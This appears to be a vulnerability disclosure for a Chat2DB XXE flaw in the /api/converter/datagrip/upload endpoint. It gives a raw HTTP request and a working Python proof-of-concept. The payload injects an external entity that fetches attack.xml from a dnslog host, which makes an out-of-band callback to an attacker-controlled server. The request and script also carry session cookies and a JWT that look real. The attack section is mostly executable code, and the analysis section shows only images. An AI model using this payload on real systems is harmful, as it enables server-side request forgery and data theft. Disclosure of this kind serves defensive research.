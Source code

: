 POC

```plain
POST /api/converter/datagrip/upload?text=%23DataSourceSettings%23 HTTP/1.1
Host: 0.0.0.0:10824
Content-Length: 0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json
Content-Type: application/json
Origin: http://0.0.0.0:10824
Referer: http://0.0.0.0:10824/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrftoken=3HulKimOvfdNVsoKTa9Uh3e58AJf2uPA7aPx9AMXgWkrA2tU62UVfPnq6DrGTThR; _ga=GA1.1.507760079.1732502327; CHAT2DB=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjIsImRldmljZSI6ImRlZmF1bHQtZGV2aWNlIiwiZWZmIjoxNzM1MjE4MTIxNzA4LCJyblN0ciI6Im15UDlvQU85Z1B2eER0WU1sY3V2V0dzRWs5SHkwUnNQIn0.-gD5bab1rvixzUxEbIRhdFsA7t8ApTPAKvblltiw3Ro; CHAT2DB.USER_ID=2; _ga_V8M4E5SF61=GS1.1.1732626111.3.1.1732626132.0.0.0
Connection: close


```



and u can using the python script。replace the dnslog address of "<font style="color:rgb(33, 37, 41);">eavdrc.dnslog.cn"</font>

```plain
import requests

payload = '''#DataSourceSettings#\n#BEGIN#\n<!DOCTYPE ANY[ <!ENTITY % remote SYSTEM "http://eavdrc.dnslog.cn/attack.xml"> %remote; ]> <root></root>'''
url = "http://0.0.0.0:10824/api/converter/datagrip/upload?text={}".format(payload)
from urllib.parse import quote
encoded_url = quote(url, safe='/:?&=')
cookies = {"csrftoken": "3HulKimOvfdNVsoKTa9Uh3e58AJf2uPA7aPx9AMXgWkrA2tU62UVfPnq6DrGTThR", "_ga": "GA1.1.507760079.1732502327", "CHAT2DB": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpblR5cGUiOiJsb2dpbiIsImxvZ2luSWQiOjIsImRldmljZSI6ImRlZmF1bHQtZGV2aWNlIiwiZWZmIjoxNzM1MjE4MTIxNzA4LCJyblN0ciI6Im15UDlvQU85Z1B2eER0WU1sY3V2V0dzRWs5SHkwUnNQIn0.-gD5bab1rvixzUxEbIRhdFsA7t8ApTPAKvblltiw3Ro", "CHAT2DB.USER_ID": "2", "_ga_V8M4E5SF61": "GS1.1.1732626111.3.1.1732626132.0.0.0"}
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36", "Accept": "application/json", "Content-Type": "application/json", "Origin": "http://0.0.0.0:10824", "Referer": "http://0.0.0.0:10824/dashboard", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
res = requests.post(encoded_url, headers=headers, cookies=cookies)
print(res.text)
```

when u execute the python script ,u will see the dnslog plaform can re

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732633551408-04a40750-4754-409d-b87e-83ea69137eb5.png)

code analysis

in the attack endpoint for <font style="color:#d1d5da;background-color:#24292e;">/datagrip/upload </font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732627825407-1c72e190-c6d3-4ffb-90f4-ab22a7936f01.png)

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732627676622-d88a0c34-3111-49e3-82db-b66b8dce9400.png)

